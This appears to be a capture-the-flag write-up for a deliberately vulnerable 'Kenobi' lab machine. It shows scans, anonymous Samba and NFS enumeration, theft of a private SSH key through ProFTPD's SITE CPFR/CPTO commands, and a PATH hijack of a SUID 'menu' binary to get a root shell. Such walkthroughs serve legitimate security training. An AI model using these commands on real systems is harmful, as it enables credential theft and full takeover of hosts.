

# Kenobi

This room will cover accessing a Samba share, manipulating a vulnerable  version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

# Recon

```
❯ sudo rustscan -a 10.10.54.157 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.54.157
Host is up, received user-set (0.089s latency).
Scanned at 2021-10-07 13:33:10 EDT for 17s

PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 61 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind     syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      39352/udp6  mountd
|   100005  1,2,3      56481/tcp6  mountd
|   100005  1,2,3      57954/udp   mountd
|   100005  1,2,3      57987/tcp   mountd
|   100021  1,3,4      32819/tcp6  nlockmgr
|   100021  1,3,4      46691/tcp   nlockmgr
|   100021  1,3,4      55975/udp   nlockmgr
|   100021  1,3,4      60410/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     syn-ack ttl 61 2-3 (RPC #100227)
42593/tcp open  mountd      syn-ack ttl 61 1-3 (RPC #100005)
46691/tcp open  nlockmgr    syn-ack ttl 61 1-4 (RPC #100021)
57987/tcp open  mountd      syn-ack ttl 61 1-3 (RPC #100005)
60253/tcp open  mountd      syn-ack ttl 61 1-3 (RPC #100005)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 19166/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 33952/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 47082/udp): CLEAN (Failed to receive data)
|   Check 4 (port 33360/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-10-07T12:33:23-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-07T17:33:22
|_  start_date: N/A
```

Enumerate the Samba shares and users.

```
❯ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.54.157
Nmap scan report for 10.10.54.157
Host is up (0.082s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.54.157\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.54.157\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.54.157\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

Alternative way of enumerating shares with smbclient:

```
❯ smbclient -N -L //10.10.54.157

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk
	IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            KENOBI
```

Manual exploration:

```
❯ smbclient -N //10.10.54.157/anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 06:49:09 2019
  ..                                  D        0  Wed Sep  4 06:56:07 2019
  log.txt                             N    12237  Wed Sep  4 06:49:09 2019

		9204224 blocks of size 1024. 6877100 blocks available

smb: \> get log.txt
getting file \log.txt of size 12237 as log.txt (19.5 KiloBytes/sec) (average 19.5 KiloBytes/sec)

smb: \> exit
```

Note, could also recursively get all SMB files with the following command:

```sh
smbget -R smb://10.10.54.157/anonymous
```

There are a few interesting things in the log file:

- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

Moving on...

---

Further enumeration of RPC service (port 111) to look at nfs:

```
❯ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.54.157

Nmap scan report for 10.10.54.157
Host is up (0.084s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount:
|_  /var *
| nfs-statfs:
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836532.0  6877096.0  22%   16.0T        32000
```

Will keep this in mind for possible privesc vector later.

----

Searchsploit of ProFTPd:



The [copy module](https://gtfobins.github.io/gtfobins/systemctl/) lets us copy files around. Since the FTP service is running as the Kenobi user (we know from the file on the share) and an ssh key is generated for that user, we can copy it over to the nfs share using SITE CPFR and SITE CPTO commands.

# Exploit

```
❯ nc 10.10.54.157 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.54.157]
help
214-The following commands are recognized (* =>'s unimplemented):
 CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV
 EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD
 XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP
 NOOP    FEAT    OPTS    AUTH*   CCC*    CONF*   ENC*    MIC*
 PBSZ*   PROT*   TYPE    STRU    MODE    RETR    STOR    STOU
 APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST
 NLST    STAT    SITE    MLSD    MLST
site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@kenobi
site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
```

Now mount the nfs share (note, IP changed b/c had to restart box), copy the ssh key, and use it to gain user access:

```sh
# mount nfs share
sudo mkdir /mnt/nfs
sudo mount 10.10.178.26:/var /mnt/nfs
ls -la /mnt/nfs

# copy ssh key to loot dir
mkdir loot
cp /mnt/nfs/tmp/id_rsa loot

# gain ssh access
ssh -i loot/id_rsa kenobi@10.10.178.26
$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

# PrivEsc

Looking for SUID binaries:

```sh
find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu   # <== looks very non-standard
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

Checking the `menu` binary by running it:

```
$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

It looks like it runs a command for us, probably using the `system` C function. Checking strings of the binary seems to confirm this, and it also reveals that the command is run without the full path, so we can take that over. First, make

```sh
# make script named "curl" with the following contents:
$ cat curl
#!/bin/bash
/bin/bash -p -i

# set as executable
$ chmod +x curl

# run menu with path modified
$ PATH=".:$PATH" /usr/bin/menu
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
```

And that gives us a root shell!

```sh
# cat root.txt
177b3cd8562289f37382721c28381f02
```


